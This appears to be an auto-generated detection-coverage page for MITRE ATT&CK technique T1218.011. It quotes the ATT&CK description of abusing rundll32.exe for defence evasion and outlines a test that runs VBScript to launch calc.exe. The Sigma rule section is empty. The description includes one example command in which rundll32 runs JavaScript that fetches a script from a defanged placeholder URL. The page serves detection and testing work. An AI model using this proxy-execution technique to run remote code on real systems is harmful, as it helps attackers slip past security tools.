 [back](../index.md)

Cover by sigma :x: 

# Attack: Rundll32

 Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

# MITRE
## Tactic
  - defense-evasion

## technique
  - T1218.011

# Test : Rundll32 execute VBscript command

## OS

 ['windows']

## Description:

 Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched


# Sigma Rule
